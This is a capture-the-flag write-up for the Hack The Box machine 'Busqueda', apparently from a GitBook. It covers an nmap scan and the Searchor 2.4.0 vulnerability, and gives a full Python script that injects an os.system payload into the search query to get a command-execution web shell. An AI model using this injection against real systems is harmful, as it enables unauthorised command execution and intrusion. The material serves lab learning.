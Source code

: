```yaml
---
cover: ../../.gitbook/assets/Busqueda.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Busqueda

```bash
nmap -p- -T4 searcher.htb
```

There are 2 ports : `80` and `22`.

* 22 (OpenSSH 8.9p1 Ubuntu 3ubuntu0.1)
* 80 (Apache httpd 2.4.52)

<figure><img src="../../.gitbook/assets/busqueda-version.png" alt=""><figcaption></figcaption></figure>

The Searchor Version is `2.4.0`. There is a vulnerability on this version : [github.com](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b#diff-40a1b591e95ee135f3f26e8ffa117a4816c202b6ce76852be85018fed09c4436)&#x20;

<figure><img src="../../.gitbook/assets/busqueda-1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/busqueda-2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/busqueda-3.png" alt=""><figcaption></figcaption></figure>

I can craft a script to get a web shell.

```python
import requests, sys

url = "http://searcher.htb/search"
engine = "Accuweather"
query = sys.argv[1]

headers = {
	'Host': 'searcher.htb',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Content-Length': '30',
	'Origin': 'http://searcher.htb',
	'Connection': 'close',
	'Referer': 'http://searcher.htb/',
	'Upgrade-Insecure-Requests': '1',
}

data = {
    'engine': engine,
    'query': f"') and print(__import__('os').system('{query}'))#"
}

response = requests.post(url=url, headers=headers, data=data)
print(response.text)
```

Then I can execute it.

```bash
python3 script.py "cat /home/svc/user.txt"
```
